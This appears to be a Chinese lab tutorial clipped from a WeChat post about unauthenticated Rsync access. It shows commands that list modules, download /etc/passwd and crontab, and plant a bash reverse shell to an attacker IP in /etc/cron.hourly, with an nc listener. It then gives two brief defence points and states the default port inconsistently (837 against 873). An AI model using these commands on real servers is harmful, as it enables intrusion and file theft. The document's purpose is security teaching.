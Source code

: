 ```yaml
---
title: Rsync未授权访问
url: https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247491292&idx=1&sn=ba2c3c69472b0d6374358c388d58cc7d&chksm=cf62e5d4f8156cc2e468f471fbd8c063aefdd490d27f4037e4cf05690f060442cfe088b16b26&mpshare=1&scene=1&srcid=0314itbr9CfQ9MyBjrMnXMzJ&sharer_shareinfo=1d61dc4744f47bcfee1d44f6e95258d7&sharer_shareinfo_first=1d61dc4744f47bcfee1d44f6e95258d7#rd
clipped_at: 2024-03-31 16:04:07
category: temp
tags: 
 - mp.weixin.qq.com
---
```



# Rsync未授权访问

#### 漏洞简介

Rsync(Remote Sync)是一个用于文件和目录同步的开源工具，广泛用于Linux和Unix系统中，它通过比较源文件和目标文件的差异只传输变化的部分，实现高效的增量备份和文件同步，Rsync默认允许匿名访问，如果在配置文件中没有相关的用户认证以及文件授权就会触发隐患，Rsync的默认端口为837

#### 环境搭建

这里我们使用Vulhub来构建环境

```plain
docker-compose up -d
```

#### 漏洞检测

```plain
#命令格式
rsync rsync://{target_ip}/

#执行示例
rsync rsync://192.168.204.191:873/
rsync rsync://192.168.204.191:873/src
```

![图片](assets/1711872247-c794c1bee35bb5cf0cde361756583a6f.webp)

#### 文件下载

任意文件下载

```plain
rsync rsync://192.168.204.191:873/src/etc/passwd ./
```

![图片](assets/1711872247-b19aed0fba2b13eed3cd1070bc8871e7.webp)

#### 反弹Shell

通过使用rsync反弹shell

```plain
# 下载crontab配置文件
rsync rsync://192.168.204.191:873/src/etc/crontab ./


该环境crontab中的以下内容表示每小时的第17分钟执行run-parts --report /etc/cron.hourly
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
```

![图片](assets/1711872247-d9ff065caec2000878d4b9fef8b52ee7.webp)

随后我们写入bash并赋权：

```plain
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1
```

![图片](assets/1711872247-9b495b33d20b871b165cd1accc2eea0e.webp)

```plain
chmod 777
```

![图片](assets/1711872247-8bd51bfee31b77f8359082030cabdc6d.webp)

随后我们将文件上传至/etc/cron.hourly

```plain
rsync -av nc rsync://192.168.204.191:873/src/etc/cron.hourly
```

![图片](assets/1711872247-f677520e6be2f6a63e8cc1866df2fec0.webp)

```plain
# 本地监听4444
nc -lnvp 4444
```

![图片](assets/1711872247-d543f3e93bf599a319000114589d692d.webp)

反弹成功：

![图片](assets/1711872247-7409138208c1054d347e6565291fdbc7.webp)

#### 防御手段 

-   数据加密传输等
    

-   访问控制：控制接入源IP